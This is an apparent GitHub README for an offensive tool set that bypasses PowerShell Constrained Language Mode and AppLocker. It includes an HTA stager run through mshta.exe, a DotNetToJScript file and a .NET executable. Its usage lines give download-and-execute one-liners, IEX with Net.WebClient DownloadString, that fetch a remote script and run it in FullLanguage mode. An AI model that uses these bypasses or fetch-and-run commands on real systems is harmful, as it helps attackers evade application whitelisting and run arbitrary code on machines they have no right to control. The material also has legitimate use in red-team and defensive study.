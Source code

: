 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

#### key
- **[A]** denotes applocker bypass for 1809
- **[C]** denots Constrained Language Mode bypass for 1809

<hr>

### contents
- CLMBypass.hta [A][C]
  - The WScript.Shell creates a new runspace
  - `payload.ps1` is downloaded and executed in FullLanguage mode
  - **Usage:** mshta.exe http://localhost/CLMBypass.hta`
- CLMBypass.js [A][C]
  - Realized this is redundant... the hta execution already creates another runspace with FullLanguage mode. Leaving it here just in case.
  - **Usage:** On line `131` you can add something like `o.Main("IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')");`
  - when the page is loaded, this will execute. If you use DotNetToJScript on your own, the functions and classes *must be public* and the class must have the `[ComVisible(true)]` tag (see Program.cs for an example).
- CLMBypass.exe [C]
  - Compiled as PE32 .NET Framework 4.0
  - **Usage:** `.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"`
- Program.cs
  - C# source code for CLMBypass.dll, a little outdated for the PE
- payload.ps1
  - payload to be run in FullLanguage mode
